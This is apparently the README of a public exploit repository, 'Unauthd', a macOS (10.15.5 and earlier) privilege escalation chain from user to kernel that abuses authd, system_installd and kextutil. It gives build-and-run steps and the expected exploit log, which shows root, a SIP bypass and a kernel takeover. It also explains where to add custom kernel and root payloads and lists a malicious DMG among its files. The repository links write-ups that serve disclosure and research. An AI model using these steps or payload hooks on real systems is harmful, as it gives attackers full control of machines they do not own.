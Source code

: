 #  Unauthd

A local privilege escalation chain from user to kernel for MacOS <=10.15.5.

## How does it work? 

I wrote a blogpost explaining the vulnerabilities and exploitation methods I used. It can be found [here](https://a2nkf.github.io/unauthd_Logic_bugs_FTW/) or [here](https://objective-see.com/blog/blog_0x4D.html) for better styling :P .

## How do I use it?

Build and run the `unauthd` target in the included xcode project. It will hijack the `acfs.kext` print a message to the kernel log and register the `debug.A2nkF.pwned` sysctl.
Run `sysctl debug.A2nkF.pwned` to verify, that the exploit has worked. 
This is the expected output:

```
~$ sysctl debug.A2nkF.pwned
debug.A2nkF.pwned: --- Kernel pwned ---
```

And this is the expected exploit output:
```
[~] Fakesigning myself with entitlements...
[+] Done!
[+] Got authorization!
[~] Requesting rights...
[*] Copy rights returned 0
[+] Success!
[~] Preparing Stage2...
[+] Logger registerd!
[~] Installing Payload...
[+] Package created!
[~] Sending install request now!
[+] Logger started! Waiting for stage 2... 
[STAGE2] [*] Stage started!
[STAGE2] [+] Running as uid 0x0
[STAGE2] [+] SIP bypassed ;) Preparing Stage 3...
[STAGE2] [~] Getting kext!
[STAGE2] [1] Started kextutil...
[STAGE2] [2] Performed overwrite...
[STAGE2] [3] Loading kext...
[STAGE2] [3] Running kext...
[STAGE2] [+] Kernel pwned!
[STAGE2] [~] Cleaning up our mess... 
[FINAL] [+] Done!
```

The exploit has been tested on:
```
Darwin MacBookPro.local 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64 x86_64
```

## Hacking

You might have noticed, that the system preferences window popps up after the exploit has run. Just add a 
```c
while(1) {}
```
after the call to `loadKext()` in `stage2/main.c` to avoid that.

If you want to modify the exploit, here's what you need to know:

### Building

The XCode project has three build targets: `unauthd`, `kernel` and `stage2`.
After applying your changes:

1. Build the `kernel` target and copy the binary over to `/kernel` on `Disk.dmg`
2. Build the `stage2` target and copy the binary over to `/System/Library/CoreServices/Applications/Feedback Assistant.app/Contents/Library/LaunchServices/seedusaged` on `Disk.dmg`
3. Build and run the `unauthd` target

### Payloads

**Custom kernel payload**:
Add a custom payload to `kernel/kernel.c`. Note: You might need to change the  `VICTIM_KEXT` variable in `stage2/main.c` to a 
kext that is linked with the symbols you require, or do the symbol resolving dynamically.

**Custom SIPless root payload**: 
Add a custom payload to `stage2/main.c` after the call to `loadKext()`.

**Custom authd payload**:
This part is a bit more tricky, you'll need to reverse engineer the framework implementing the APIs for a desired right, implement a client module in `unauthd/modules/<yourmodule>.m` and call it from `unauthd/main.m`. 

### Files

`kernel`: Kernel Payload 

`resources`: Malicious DMG, entitlements and exploitable apple signed PKG

`stage2`: `kextutil` exploit + minimal mach logger client

`unauthd`: `authd` and `system_installd` exploit + minimal mach logger server

`unauthd/modules`: clients for private frameworks

